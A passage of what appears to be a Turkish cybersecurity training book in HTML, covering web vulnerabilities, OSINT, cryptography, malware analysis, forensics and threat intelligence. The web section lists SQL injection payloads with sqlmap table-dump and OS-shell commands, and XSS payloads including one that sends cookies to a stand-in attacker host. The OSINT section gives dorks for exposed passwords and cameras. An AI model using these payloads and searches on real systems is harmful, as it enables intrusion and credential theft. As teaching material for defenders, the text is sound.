            <td>Yüksek</td>
            <td>MFA, Güçlü parola politikası</td>
          </tr>
          <tr>
            <td>A08</td>
            <td>Software & Data Integrity Failures</td>
            <td>Yüksek</td>
            <td>Dijital imza, Supply chain güvenliği</td>
          </tr>
          <tr>
            <td>A09</td>
            <td>Security Logging Failures</td>
            <td>Orta</td>
            <td>Kapsamlı loglama, SIEM entegrasyonu</td>
          </tr>
          <tr>
            <td>A10</td>
            <td>SSRF</td>
            <td>Yüksek</td>
            <td>Giriş doğrulama, Network segmentasyonu</td>
          </tr>
        </tbody>
      </table>

      <h2>4.2 SQL Injection: Derinlemesine Analiz</h2>
      <p>SQL Injection; saldırganın uygulama sorgularını manipüle etmek amacıyla kötü amaçlı SQL kodu enjekte ettiği bir
        güvenlik açığıdır. Veri sızıntısından tam veritabanı kontrolüne kadar uzanan geniş bir etki yelpazesine
        sahiptir.</p>

      <h3>4.2.1 SQLi Türleri</h3>
      <ul>
        <li><strong style="color:var(--gold);">In-band SQLi:</strong> Saldırganın aynı kanal üzerinden sonuç alabileceği
          en yaygın türdür. Error-based ve Union-based alt kategorileri vardır.</li>
        <li><strong style="color:var(--gold);">Blind SQLi:</strong> Uygulama hata mesajı göstermediğinde kullanılır.
          Boolean-based ve Time-based olmak üzere ikiye ayrılır. Sorgu sonucunu dolaylı yoldan anlamayı gerektirir.</li>
        <li><strong style="color:var(--gold);">Out-of-band SQLi:</strong> DNS veya HTTP istekleri aracılığıyla veri
          sızıntısı yapılan, koşulların çok spesifik olduğu bir türdür.</li>
      </ul>

      <pre><code>-- Temel SQLi tespiti
' OR '1'='1
' OR 1=1--
" OR ""="
'; EXEC xp_cmdshell('whoami')--

-- Union-based veri çekme
' UNION SELECT NULL,username,password FROM users--

-- Blind Boolean-based
' AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'--

-- Time-based Blind SQLi (MySQL)
' AND SLEEP(5)--
' AND IF(1=1, SLEEP(5), 0)--

-- SQLMap ile otomatik tespit ve sömürü
sqlmap -u "https://hedef.com/page?id=1" --dbs
sqlmap -u "https://hedef.com/page?id=1" -D veritabani -T users --dump
sqlmap -u "https://hedef.com/page?id=1" --os-shell</code></pre>

      <h3>4.2.2 SQLi Önleme</h3>
      <pre><code># Python — Güvenli parameterized query
import sqlite3
conn = sqlite3.connect('db.sqlite')

# YANLIŞ — SQLi açığı var!
query = f"SELECT * FROM users WHERE username='{username}'"

# DOĞRU — Parameterized query
query = "SELECT * FROM users WHERE username = ?"
cursor = conn.execute(query, (username,))

# PHP — PDO ile güvenli sorgu
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username");
$stmt->execute([':username' => $username]);</code></pre>

      <h2>4.3 Cross-Site Scripting (XSS)</h2>
      <p>XSS; saldırganın kötü amaçlı JavaScript kodunu hedef web uygulamasına enjekte ettiği ve bu kodun diğer
        kullanıcıların tarayıcılarında çalıştığı bir saldırı türüdür. Oturum çalma, kimlik avı, tuş kaydedici
        (keylogger) dağıtımı ve hassas bilgi toplama bu saldırıların olası sonuçları arasındadır.</p>

      <h3>XSS Türleri ve Payload Örnekleri</h3>
      <pre><code>&lt;!-- Reflected XSS — URL üzerinden --&gt;
https://hedef.com/search?q=&lt;script&gt;alert(document.cookie)&lt;/script&gt;

&lt;!-- Stored XSS — Veritabanına kaydedilen --&gt;
&lt;img src="x" onerror="fetch('https://saldirgan.com/steal?c='+document.cookie)"&gt;

&lt;!-- DOM-based XSS --&gt;
&lt;img src=x onerror=eval(atob('YWxlcnQoMSk='))&gt;

&lt;!-- Filtre atlama payloadları --&gt;
&lt;ScRiPt&gt;alert(1)&lt;/ScRiPt&gt;
&lt;svg/onload=alert(1)&gt;
&lt;iframe src="javascript:alert(1)"&gt;

&lt;!-- Güvenli çıktı kodlama — Python --&gt;
import html
safe_output = html.escape(user_input)

&lt;!-- Content Security Policy (CSP) header --&gt;
Content-Security-Policy: default-src 'self'; script-src 'nonce-{random}' 'strict-dynamic';</code></pre>

      <h2>4.4 CSRF, SSRF ve XXE Saldırıları</h2>

      <h3>4.4.1 Cross-Site Request Forgery (CSRF)</h3>
      <p>CSRF; kimlik doğrulanmış bir kullanıcının farkında olmadan saldırganın istediği işlemleri gerçekleştirmesini
        sağlayan bir saldırıdır. Anti-CSRF token kullanımı, SameSite cookie politikası ve Double Submit Cookie yöntemi
        temel koruma mekanizmalarını oluşturur.</p>

      <h3>4.4.2 Server-Side Request Forgery (SSRF)</h3>
      <p>SSRF; saldırganın sunucuyu iç ağa ya da harici kaynaklara istek göndermesi için manipüle ettiği kritik bir
        güvenlik açığıdır. Bulut ortamlarında özellikle tehlikelidir: AWS metadata servisi (169.254.169.254) gibi iç
        kaynaklar SSRF aracılığıyla erişilebilir hale gelebilir.</p>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 5: OSINT
══════════════════════════════════════════════════════ -->
    <section id="ch5" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">OSINT: Açık Kaynak<br>İstihbarat Teknikleri</h1>
      <p class="chapter-lead">
        OSINT (Open Source Intelligence); kamuya açık kaynaklardan sistematik biçimde bilgi toplanması, analiz edilmesi
        ve değerlendirilmesidir. Siber güvenlik perspektifinden OSINT; hem saldırı öncesi keşif hem de savunma amaçlı
        tehdit istihbaratı için kritik bir disiplindir.
      </p>

      <div class="gold-rule"></div>

      <h2>5.1 OSINT Döngüsü ve Metodoloji</h2>
      <p>Profesyonel OSINT çalışması; rastgele bilgi toplama değil, sistematik bir döngü içinde yürütülen
        yapılandırılmış bir süreçtir. Bu döngü; planlama, toplama, işleme, analiz ve üretim aşamalarından oluşur. Her
        aşama bir öncekine bilgi beslerken bir sonrakinin zeminini hazırlar.</p>

      <h2>5.2 Kişi ve Kurum Araştırması</h2>

      <h3>5.2.1 Alan Adı ve IP İstihbaratı</h3>
      <pre><code># WHOIS bilgisi
whois hedef.com
whois 1.2.3.4

# DNS keşfi ve zone transfer denemesi
dig axfr hedef.com @ns1.hedef.com
host -t axfr hedef.com ns1.hedef.com

# Subdomain keşfi — Aktif
subfinder -d hedef.com -all -recursive
amass enum -d hedef.com -brute -w /wordlists/subdomains.txt

# DNSdumpster, VirusTotal, Crt.sh pasif kayıtlar
curl "https://crt.sh/?q=%.hedef.com&output=json" | jq '.[].name_value' | sort -u

# Reverse IP — Aynı sunucudaki diğer siteler
python3 -c "import socket; print(socket.getaddrinfo('hedef.com',80))"</code></pre>

      <h3>5.2.2 Shodan: İnternet'in Arama Motoru</h3>
      <p>Shodan; internete bağlı cihazları ve açık servisleri indeksleyen özelleşmiş bir arama motorudur. Güvenlik
        araştırmacıları için güçlü bir OSINT kaynağı olan Shodan; kötü yapılandırılmış cihazları, açık port ve
        servisleri ve savunmasız sistemleri tespit etmek için kullanılır.</p>

      <pre><code># Shodan CLI aramaları
shodan search "apache" --limit 100
shodan search 'country:"TR" port:3389 RDP'
shodan search 'org:"Turk Telekom" vuln:CVE-2021-44228'

# Shodan Python API
from shodan import Shodan
api = Shodan('API_KEY')

# IP hakkında detay
host = api.host('1.2.3.4')
print(host['org'])
print(host['os'])
for item in host['data']:
    print(f"Port: {item['port']}, Banner: {item['data']}")

# Dork araması
results = api.search('product:Apache country:TR port:80')
for result in results['matches']:
    print(result['ip_str'])</code></pre>

      <h3>5.2.3 Google Dorks: Gelişmiş Arama Operatörleri</h3>
      <pre><code># Hassas dosya tespiti
site:hedef.com filetype:pdf "confidential"
site:hedef.com filetype:xls "password"

# Giriş paneli tespiti
site:hedef.com inurl:admin intitle:"login"
site:hedef.com inurl:"/wp-admin"

# Dizin listeleme
site:hedef.com intitle:"index of"

# Yapılandırma dosyaları
site:hedef.com filetype:env OR filetype:cfg OR filetype:ini
inurl:"/.git/" site:hedef.com

# Açık kameralar
inurl:"view.shtml" intitle:"Network Camera"
intitle:"Webcam 7" inurl:8080

# Exposed credentials
site:github.com "hedef.com" "password" OR "api_key" OR "secret"</code></pre>

      <h2>5.3 Sosyal Medya OSINT</h2>
      <p>Sosyal medya platformları; kişisel ve kurumsal bilgilerin en yoğun biçimde paylaşıldığı kaynaklardır. LinkedIn;
        çalışan isimleri, organizasyon yapısı ve kullanılan teknoloji stack'i hakkında değerli bilgiler sunar.
        Twitter/X; gerçek zamanlı olaylar, şirket duyuruları ve teknik paylaşımlar açısından zengin bir kaynaktır.</p>

      <h3>5.3.1 Metadata Analizi</h3>
      <p>Dijital dosyalara gömülü metadata; fotoğrafın çekildiği cihaz, GPS koordinatları, kullanıcı adı ve yazılım
        bilgisi gibi hassas veriler içerebilir. ExifTool; fotoğraf, PDF ve ofis belgelerinden metadata çıkarmak için en
        yaygın kullanılan araçtır.</p>

      <pre><code># ExifTool ile metadata analizi
exiftool fotoğraf.jpg
exiftool -all= fotoğraf.jpg  # Tüm metadata sil

# Toplu analiz
exiftool -r /dizin/*.jpg -csv > metadata_raporu.csv

# GPS koordinatları çıkarma
exiftool -gpslatitude -gpslongitude fotoğraf.jpg</code></pre>

      <h2>5.4 Dark Web İstihbaratı</h2>
      <p>Dark web; standart tarayıcılarla erişilemeyen, özel yazılımlar (Tor, I2P) gerektiren gizli ağları kapsar. Siber
        suç ekosistemi açısından sızdırılmış veri satışları, exploit pazar yerleri ve ransomware C2 altyapıları dark
        web'de faaliyet gösterir. Güvenlik ekipleri; kurumlarına ait veri sızıntılarını ve tehdit aktörü faaliyetlerini
        izlemek amacıyla dark web istihbarat servisleri kullanır.</p>

      <div class="callout" data-label="OSINT Araç Seti">
        <p><strong style="color:var(--gold);">Maltego:</strong> Grafik tabanlı ilişki haritalama ve bağlantı analizi
          platformu</p>
        <p><strong style="color:var(--gold);">SpiderFoot:</strong> 200+ veri kaynağıyla otomatik OSINT çerçevesi</p>
        <p><strong style="color:var(--gold);">theHarvester:</strong> E-posta, subdomain ve host toplama aracı</p>
        <p><strong style="color:var(--gold);">Recon-ng:</strong> Modüler web keşif çerçevesi</p>
        <p><strong style="color:var(--gold);">FOCA:</strong> Meta veri ve gizli bilgi analiz aracı</p>
        <p><strong style="color:var(--gold);">Creepy:</strong> Coğrafi konum istihbaratı toplama</p>
      </div>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 6: KRİPTOGRAFİ
══════════════════════════════════════════════════════ -->
    <section id="ch6" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Kriptografi ve<br>Şifreleme Sistemleri</h1>
      <p class="chapter-lead">
        Kriptografi; bilginin gizliliğini, bütünlüğünü ve özgünlüğünü matematiksel yöntemlerle güvence altına alan bilim
        dalıdır. Modern siber güvenlik altyapısının temeli kriptografik protokollere dayanır.
      </p>

      <div class="gold-rule"></div>

      <h2>6.1 Simetrik Şifreleme</h2>
      <p>Simetrik şifrelemede; şifreleme ve şifre çözme için aynı anahtar kullanılır. Bu yaklaşım; asimetrik şifrelemeye
        kıyasla çok daha hızlı olmakla birlikte, güvenli anahtar dağıtımı sorunu temel kısıtlamasını oluşturur.</p>

      <table>
        <thead>
          <tr>
            <th>Algoritma</th>
            <th>Anahtar Uzunluğu</th>
            <th>Blok Boyutu</th>
            <th>Durum</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td>AES-128/256</td>
            <td>128 veya 256 bit</td>
            <td>128 bit</td>
            <td>✅ Güvenli — Standart</td>
          </tr>
          <tr>
            <td>ChaCha20</td>
            <td>256 bit</td>
            <td>Stream cipher</td>
            <td>✅ Güvenli — Hızlı</td>
          </tr>
          <tr>
            <td>3DES</td>
            <td>168 bit</td>
            <td>64 bit</td>
            <td>⚠️ Kullanımdan Kalkıyor</td>
          </tr>
          <tr>
            <td>DES</td>
            <td>56 bit</td>
            <td>64 bit</td>
            <td>❌ Güvensiz — KULLANMA</td>
          </tr>
          <tr>
            <td>RC4</td>
            <td>40-2048 bit</td>
            <td>Stream cipher</td>
            <td>❌ Güvensiz — KULLANMA</td>
          </tr>
        </tbody>
      </table>

      <h3>6.1.1 AES Çalışma Modları</h3>
      <p>AES; farklı çalışma modlarında kullanılabilir ve bu seçim güvenlik üzerinde kritik etki yapar:</p>
      <ul>
        <li><strong style="color:var(--gold);">ECB (Electronic Codebook):</strong> Her blok bağımsız şifrelenir. Aynı
          düz metin her zaman aynı şifreli metni üretir — KULLANMA</li>
        <li><strong style="color:var(--gold);">CBC (Cipher Block Chaining):</strong> Her blok öncekiyle XOR'lanır. IV
          gerektirir. Padding oracle saldırısına açık.</li>
        <li><strong style="color:var(--gold);">GCM (Galois/Counter Mode):</strong> Şifreleme + kimlik doğrulaması
          birleştirir. TLS 1.3'ün tercih ettiği mod.</li>
        <li><strong style="color:var(--gold);">CTR (Counter Mode):</strong> Stream cipher gibi çalışır. Paralel
          şifreleme imkânı.</li>
      </ul>

      <h2>6.2 Asimetrik Şifreleme ve PKI</h2>
      <p>Asimetrik şifrelemede matematiksel olarak birbirine bağlı iki anahtar çifti kullanılır: <span
          class="key-term">açık anahtar (public key)</span> ve <span class="key-term">özel anahtar (private key)</span>.
        Açık anahtarla şifrelenen veri yalnızca eşleşen özel anahtarla çözülebilir. Bu yaklaşım; simetrik şifrelemenin
        anahtar dağıtım sorununu elegantly çözer.</p>

      <pre><code># OpenSSL ile RSA anahtar çifti oluşturma
openssl genrsa -out private.pem 4096
openssl rsa -in private.pem -pubout -out public.pem

# Dosya şifreleme/şifre çözme
openssl rsautl -encrypt -inkey public.pem -pubin -in dosya.txt -out dosya.enc
openssl rsautl -decrypt -inkey private.pem -in dosya.enc -out dosya_cozuldu.txt

# Dijital imza oluşturma ve doğrulama
openssl dgst -sha256 -sign private.pem -out imza.bin mesaj.txt
openssl dgst -sha256 -verify public.pem -signature imza.bin mesaj.txt

# Self-signed SSL sertifikası
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes</code></pre>

      <h2>6.3 Hash Fonksiyonları</h2>
      <p>Kriptografik hash fonksiyonları; herhangi uzunluktaki bir girdiyi sabit uzunluklu çıktıya (özet/digest)
        dönüştüren tek yönlü fonksiyonlardır. Veri bütünlüğü doğrulama, parola saklama ve dijital imzalarda temel rol
        oynarlar.</p>

      <table>
        <thead>
          <tr>
            <th>Algoritma</th>
            <th>Çıktı</th>
            <th>Durum</th>
            <th>Kullanım Alanı</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td>SHA-256</td>
            <td>256 bit</td>
            <td>✅ Güvenli</td>
            <td>Genel amaçlı, TLS, Git</td>
          </tr>
          <tr>
            <td>SHA-3 (Keccak)</td>
            <td>224-512 bit</td>
            <td>✅ Güvenli</td>
            <td>Yüksek güvenlik gerektiren</td>
          </tr>
          <tr>
            <td>bcrypt</td>
            <td>60 karakter</td>
            <td>✅ Güvenli</td>
            <td>Parola saklama</td>
          </tr>
          <tr>
            <td>Argon2</td>
            <td>Değişken</td>
            <td>✅ Güvenli</td>
            <td>Modern parola hash (Önerilen)</td>
          </tr>
          <tr>
            <td>MD5</td>
            <td>128 bit</td>
            <td>❌ Kırık</td>
            <td>Yalnızca checksum (güvenlik değil)</td>
          </tr>
          <tr>
            <td>SHA-1</td>
            <td>160 bit</td>
            <td>❌ Kırık</td>
            <td>KULLANMA</td>
          </tr>
        </tbody>
      </table>

      <h2>6.4 TLS/SSL: İletişim Güvenliği</h2>
      <p>TLS (Transport Layer Security); internet üzerindeki iletişimi şifreleyen ve kimlik doğrulayan kriptografik
        protokoldür. HTTPS, SMTPS ve FTPS gibi güvenli protokollerin temelini oluşturur. TLS 1.3; önceki versiyonların
        zayıflıklarını gidererek performansı artıran güncel standarttır.</p>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 7: MALWARE ANALİZİ
══════════════════════════════════════════════════════ -->
    <section id="ch7" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Zararlı Yazılım (Malware)<br>Analizi</h1>
      <p class="chapter-lead">
        Zararlı yazılım analizi; kötü amaçlı kodun davranışını, yapısını ve etkisini anlama amacıyla yürütülen
        sistematik inceleme sürecidir. Bu disiplin; olay müdahalesi, tehdit istihbaratı ve antivirüs imzası geliştirme
        için vazgeçilmezdir.
      </p>

      <div class="gold-rule"></div>

      <h2>7.1 Zararlı Yazılım Kategorileri</h2>
      <table>
        <thead>
          <tr>
            <th>Tür</th>
            <th>Davranış</th>
            <th>Örnek</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td><strong style="color:var(--gold);">Virüs</strong></td>
            <td>Kendi kendini diğer dosyalara kopyalar</td>
            <td>CIH, Melissa</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Solucan (Worm)</strong></td>
            <td>Ağ üzerinde bağımsız yayılır, insan müdahalesi gerekmez</td>
            <td>WannaCry, Conficker</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Truva Atı (Trojan)</strong></td>
            <td>Meşru yazılım gibi görünür, gizli zararlı işlev barındırır</td>
            <td>Emotet, TrickBot</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">RAT</strong></td>
            <td>Uzaktan yönetim ve gözetim imkânı sağlar</td>
            <td>AsyncRAT, QuasarRAT</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Fidye Yazılımı</strong></td>
            <td>Dosyaları şifreler, fidye talep eder</td>
            <td>LockBit, Conti, REvil</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Rootkit</strong></td>
            <td>Sisteme derin sızar, varlığını gizler</td>
            <td>Necurs, ZeroAccess</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Spyware</strong></td>
            <td>Kullanıcı etkinliğini gizlice izler</td>
            <td>FinFisher, Pegasus</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Keylogger</strong></td>
            <td>Klavye girişlerini kaydeder</td>
            <td>Ardamax, HawkEye</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Botnet</strong></td>
            <td>Uzak kumanda altındaki enfekte cihaz ağı</td>
            <td>Mirai, Emotet botnet</td>
          </tr>
        </tbody>
      </table>

      <h2>7.2 Statik Analiz</h2>
      <p>Statik analiz; zararlı yazılımı çalıştırmadan kaynak veya derleme kodunu inceleme yöntemidir. Risk açısından
        güvenli olmakla birlikte; obfuscation (kod karartma) ve packing teknikleriyle engellenebildiğinden
        sınırlılıkları mevcuttur.</p>

      <pre><code># Dosya türü tespiti
file malware.exe
strings malware.exe | head -100     # İçindeki okunabilir dizeler
strings malware.exe | grep -i "http\|https\|cmd\|powershell"

# PE başlığı analizi (Windows çalıştırılabilir dosyalar)
pe-bear malware.exe   # GUI araç
python3 -c "import pefile; pe=pefile.PE('malware.exe'); pe.print_info()"

# Hash hesaplama (VirusTotal sorgusu için)
md5sum malware.exe
sha256sum malware.exe

# YARA kurallarıyla tarama
yara -r rules/ malware.exe

# Import/Export fonksiyon analizi (dlllistesi)
objdump -p malware.exe | grep DLL</code></pre>

      <h2>7.3 Dinamik Analiz</h2>
      <p>Dinamik analiz; zararlı yazılımın kontrollü bir ortamda (sandbox) çalıştırılarak gerçek davranışının
        gözlemlenmesidir. Ağ iletişimi, dosya sistemi değişiklikleri, registry manipülasyonu ve süreç enjeksiyonu bu
        analizin kapsamına girer.</p>

      <pre><code># Sandbox araçları
# Cuckoo Sandbox — Açık kaynak, kendi altyapısında
cuckoo submit --timeout 120 malware.exe

# Süreç izleme (Windows — Process Monitor)
# Ağ izleme
tcpdump -i eth0 -w malware_trafik.pcap
wireshark -r malware_trafik.pcap

# API izleme — frida
frida -n explorer.exe --no-pause -l monitor.js

# Sistem çağrıları — Linux
strace -f -o syscalls.log ./malware
ltrace -f ./malware</code></pre>

      <h2>7.4 Fidye Yazılımı Anatomisi</h2>
      <p>Fidye yazılımı (ransomware); kurbanın dosyalarını şifreleyerek erişimi engelleyen ve şifre çözme anahtarı
        karşılığında ödeme talep eden bir zararlı yazılım kategorisidir. Son yıllarda Hizmet Olarak Fidye Yazılımı
        (RaaS) modelinin yaygınlaşmasıyla bu tehdit dramatik biçimde artmıştır.</p>

      <h3>Tipik Fidye Yazılımı Saldırı Zinciri</h3>
      <div class="phase-timeline">
        <div class="phase-item">
          <div class="phase-label">1. İlk Erişim</div>
          <p>Phishing e-postası, güvenlik açığından yararlanma (exploit) veya çalınmış kimlik bilgileriyle RDP erişimi
          </p>
        </div>
        <div class="phase-item">
          <div class="phase-label">2. Kalıcılık Sağlama</div>
          <p>Registry Run key, Scheduled Task veya servis kaydıyla yeniden başlamada hayatta kalma</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">3. Keşif ve Yanal Hareket</div>
          <p>Değerli verilerin ve sistemlerin tespiti, domain admin yetkisi elde etme</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">4. Çift Gasp (Double Extortion)</div>
          <p>Fidye ödemesi öncesinde hassas verilerin saldırgan altyapısına sızdırılması</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">5. Şifreleme</div>
          <p>Dosyaların asimetrik+simetrik şifreleme kombinasyonuyla şifrelenmesi</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">6. Fidye Notu</div>
          <p>Ödeme talimatları ve dark web iletişim bağlantısı içeren fidye notunun bırakılması</p>
        </div>
      </div>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 8: DİJİTAL ADLİ BİLİŞİM
══════════════════════════════════════════════════════ -->
    <section id="ch8" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Dijital Adli Bilişim<br>(Digital Forensics)</h1>
      <p class="chapter-lead">
        Dijital adli bilişim; siber olaylarla ilgili dijital delillerin toplanması, korunması, analiz edilmesi ve
        mahkemede sunulabilir biçimde belgelenmesi disiplinidir. Olay müdahalesi süreçlerinin ayrılmaz bir parçasını
        oluşturur.
      </p>

      <div class="gold-rule"></div>

      <h2>8.1 Delil Toplama Prensipleri</h2>

      <div class="callout" data-label="Temel İlke">
        <p><strong style="color:var(--gold);">Volatilite Sıralaması:</strong> Dijital deliller, en değişken (volatile)
          olandan en kararlıya doğru toplanmalıdır. Bu sıralama: CPU kayıtları ve önbellek → Sistem belleği (RAM) → Ağ
          bağlantıları → Çalışan süreçler → Disk verileri → Loglar → Arşiv medyası</p>
      </div>

      <p><span class="key-term">Delil Zinciri (Chain of Custody)</span>; dijital delilin kimler tarafından ne zaman
        toplandığını, işlendiğini ve korunduğunu belgeleyen kayıt sistemidir. Mahkeme süreçlerinde delilin geçerliliği
        için bu zincirin bütünlüğü şarttır. Her delil öğesi için: kim topladı, ne zaman, hangi araçla ve hangi hash
        değeriyle saklandığı belgelenmelidir.</p>

      <h2>8.2 Bellek (RAM) Adli Analizi</h2>
      <p>Bellek adli analizi; sistem RAM'ının içeriğini inceleyerek çalışan süreçler, açık ağ bağlantıları, şifreli disk
        anahtarları ve aktif zararlı yazılım izlerini tespit etmeyi kapsar. Volatility Framework bu alandaki endüstri
        standardı açık kaynaklı araçtır.</p>

      <pre><code># Bellek görüntüsü alma (FTK Imager veya WinPmem)
winpmem_mini_x64.exe memory.dmp

# Volatility 3 ile analiz
# Profil tespiti
vol3 -f memory.dmp windows.info

# Çalışan süreçler
vol3 -f memory.dmp windows.pslist
vol3 -f memory.dmp windows.pstree

# Gizlenmiş süreçler (rootkit tespiti)
vol3 -f memory.dmp windows.psscan    # Direkt pool scanning

# Ağ bağlantıları
vol3 -f memory.dmp windows.netstat

# Şüpheli DLL enjeksiyonu
vol3 -f memory.dmp windows.dlllist --pid 1234
vol3 -f memory.dmp windows.malfind   # Çalıştırılabilir bellek bölgeleri

# Registry analizi
vol3 -f memory.dmp windows.registry.printkey

# Credential extraction
vol3 -f memory.dmp windows.hashdump
vol3 -f memory.dmp windows.lsadump</code></pre>

      <h2>8.3 Disk Adli Analizi</h2>
      <p>Disk adli analizi; sabit disk, SSD veya USB sürücüden delil toplamayı kapsar. Analiz öncesinde her zaman
        orijinal medyanın adli kopyası alınmalı ve hash değerleriyle bütünlüğü doğrulanmalıdır. Yazma koruyucu (write
        blocker) kullanımı zorunludur.</p>

      <pre><code># Adli disk kopyası alma (dd ile)
# Write blocker takıldıktan sonra
dd if=/dev/sdb of=/mnt/delil/disk_kopyasi.dd bs=4096 conv=noerror,sync
sha256sum /dev/sdb > hash_orijinal.txt
sha256sum disk_kopyasi.dd > hash_kopya.txt

# Daha gelişmiş adli kopya — dcfldd
dcfldd if=/dev/sdb of=disk.img hash=md5,sha256 bs=512 hashlog=hash.log

# Autopsy ile GUI analizi (The Sleuth Kit tabanlı)
autopsy &  # Web arayüzü başlatır

# Dosya kurtarma — Photorec / TestDisk
photorec disk.img

# Silinmiş dosya kurtarma
foremost -i disk.img -o kurtarılan_dosyalar/
bulk_extractor -o çıktı/ disk.img</code></pre>

      <h2>8.4 Log Adli Analizi</h2>
      <p>Log analizi; sistem ve uygulama günlüklerinden saldırı izlerini, kullanıcı davranış anomalilerini ve güvenlik
        ihlali kanıtlarını tespit etme sürecidir. Windows Event Log, Linux Syslog ve web sunucu logları başlıca
        kaynaklardır.</p>

      <pre><code># Windows Event Log analizi
# Başarıyla oturum açma (Event ID: 4624)
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4624} | 
  Select TimeCreated, Message | Export-Csv loglar.csv

# Başarısız oturum açma (Event ID: 4625)
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4625} -MaxEvents 100

# Linux — Auth log analizi
grep "Failed password" /var/log/auth.log | awk '{print $11}' | sort | uniq -c | sort -rn
grep "Accepted password" /var/log/auth.log | tail -50

# Apache access log analizi
awk '{print $1}' /var/log/apache2/access.log | sort | uniq -c | sort -rn | head -20
grep " 500 " /var/log/apache2/access.log | tail -100   # Sunucu hataları
grep "sqlmap\|nikto\|nmap" /var/log/apache2/access.log  # Tarayıcı tespiti</code></pre>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 9: TEHDİT İSTİHBARATI
══════════════════════════════════════════════════════ -->
    <section id="ch9" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Tehdit İstihbaratı<br>(Threat Intelligence)</h1>
      <p class="chapter-lead">
        Tehdit istihbaratı; mevcut ve gelecekteki siber tehditleri anlamak, karakterize etmek ve öngörmek için toplanan,
        işlenen ve analiz edilen bilginin bütünüdür. Reaktif güvenlikten proaktif savunmaya geçişin temel motorunu
        oluşturur.
      </p>

      <div class="gold-rule"></div>

      <h2>9.1 Tehdit İstihbaratı Türleri</h2>
      <table>
        <thead>
          <tr>
            <th>Tür</th>
            <th>Hedef Kitle</th>
            <th>İçerik</th>
            <th>Zaman Ufku</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td><strong style="color:var(--gold);">Stratejik</strong></td>
            <td>Üst yönetim, CISO</td>
            <td>Tehdit aktörü eğilimleri, Jeopolitik riskler</td>
            <td>Uzun vadeli</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Taktiksel</strong></td>
            <td>Güvenlik mimarları</td>
            <td>TTP'ler, Saldırı metodolojileri</td>
            <td>Orta vadeli</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Operasyonel</strong></td>
            <td>SOC analistleri</td>
            <td>Aktif kampanyalar, Hedefleme bilgisi</td>
            <td>Kısa vadeli</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Teknik</strong></td>
            <td>Güvenlik mühendisleri</td>
            <td>IoC'ler (IP, hash, URL, domain)</td>
            <td>Gerçek zamanlı</td>
          </tr>
        </tbody>
      </table>

      <h2>9.2 MITRE ATT&CK Çerçevesi</h2>
      <p>MITRE ATT&CK (Adversarial Tactics, Techniques & Common Knowledge); gerçek dünya saldırı gözlemlerine dayanan
        kapsamlı bir bilgi tabanıdır. Tehdit aktörlerinin kullandığı taktik ve teknikleri sistematik biçimde kataloglar.
        Savunma önlemlerini gerçek tehdit davranışlarıyla eşleştirmek için en güçlü referans çerçevesidir.</p>

      <h3>ATT&CK Taktik Kategorileri (Enterprise)</h3>
      <ol>
        <li>Reconnaissance (Keşif)</li>
        <li>Resource Development (Kaynak Geliştirme)</li>
        <li>Initial Access (İlk Erişim)</li>
        <li>Execution (Çalıştırma)</li>
        <li>Persistence (Kalıcılık)</li>
        <li>Privilege Escalation (Ayrıcalık Yükseltme)</li>
        <li>Defense Evasion (Savunma Atlatma)</li>
        <li>Credential Access (Kimlik Bilgisi Erişimi)</li>
        <li>Discovery (Sistem Keşfi)</li>
        <li>Lateral Movement (Yanal Hareket)</li>
        <li>Collection (Veri Toplama)</li>
